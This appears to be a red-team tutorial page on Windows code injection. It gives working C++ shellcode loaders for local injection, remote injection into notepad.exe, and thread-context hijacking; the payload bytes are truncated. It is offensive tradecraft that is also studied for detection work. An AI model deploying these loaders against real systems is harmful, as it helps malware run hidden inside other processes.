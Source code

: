 ```yaml
---
title: Introduction
category: Maldev-Code Injection
order: 1
---
```


Is a technique useful to escape from short-lived process or to change the working context.

> **Note**: You can't see the output of the payload injected on other process.

There are different techniques, the most common are payload injection and dll injection. The payload can be injected on a different process or in the current process.


# Local Classic Technique (VirtualAlloc)

The behavior of a local classic injection:

* `VirtualAlloc`: Create a memory space to store our payload. Normally the buffer is created with `PAGE_READWRITE` rights.
* `RtlMoveMemory`: Copy the payload to the new allocated space.
* `VirtualProtect`: Change the protection to `PAGE_READEXECUTE`.
* `CreateThread`: Execute the payload.

Example of local injection:

![](/rtnotes/classic-injection.png)


```cpp
int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;

    char payload[] = {0xfc, 0x48, 0x83,...};


    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, sizeof(payload));
    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        hThread = CreateThread(0,0, (LPTHREAD_START_ROUTINE)pexec, 0,0,0);
        WaitForSingleObject(hThread, -1);
    }
    CloseHandle(hThread);
    return 0;
}
```

# Remote Classic Technique (VirtualAllocEx)

The behavior of a remote classic injection:

* `VirtualAlllocEx`: Create a memory space to store our payload on a process. Normally the buffer is created with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the protection to `PAGE_READEXECUTE`.
* `CreateRemoteThread`, `RtlCreateUserThread` or `NtCreateThreadEx`: Execute the payload.

Example of remote injection:

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, 0x83,...};
    int payload_len = sizeof(payload);

    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE);
            WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
            VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
            hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pexec, NULL, 0, NULL);
            if(hThread != NULL){
                WaitForSingleObject(hThread, -1);
                CloseHandle(hThread);
            }
            CloseHandle(hProc);
        }
    }
    return 0;
}
```

Check *Object Enumeration - Process Enumeration* section to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)


# Thread Context Injection

Instead of create a new thread on the target process we can get an existing one, suspend it, modify the EIP or RIP (next instruction pointer) specifying our payload and resume the thread.

> **Note**: Since we are hijacking the thread, we will break the process. **IT WILL CRASH THE PROCESS**.

The behavior of a thread context injection:

* `OpenProcess`, `OpenThread`: Obtain a thread handle from a remote process.
* `VirtualAllocEx`: Allocate memory space for our payload with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the rights to `PAGE_EXECUTE_READ` of the new allocated space.
* `SuspendThread`: Suspend the thread.
* `GetThreadContext`: Get all the Context of the suspended thread.
* `SetThreadContext`: Change the next instruction pointer (EIP or RIP) to our allocated memory space.
* `ResumeThread`: Execute the payload.

Example of thread context injection.

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, ...};
    int payload_len = sizeof(payload);
    CONTEXT ctx;
    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            hThread = FindThread(pid);
            if(hThread != NULL){
                pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE); 
                WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
                VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
                ctx.ContextFlags = CONTEXT_FULL;
                SuspendThread(hThread);
                GetThreadContext(hThread, &ctx);
            #ifdef _M_IX86 
	            ctx.Eip = (DWORD_PTR) pexec;
            #else
	            ctx.Rip = (DWORD_PTR) pexec;
            #endif
                SetThreadContext(hThread, &ctx);
                ResumeThread(hThread);
                
            }
            CloseHandle(hThread);
        }
        CloseHandle(hProc);    
    }
    return 0;
}
```

Check *Object Enumeration*-> *Process Enumeration* and *Thread Enumeration* sections to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)
* [https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/](https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/)


# Alternatives to CreateThread
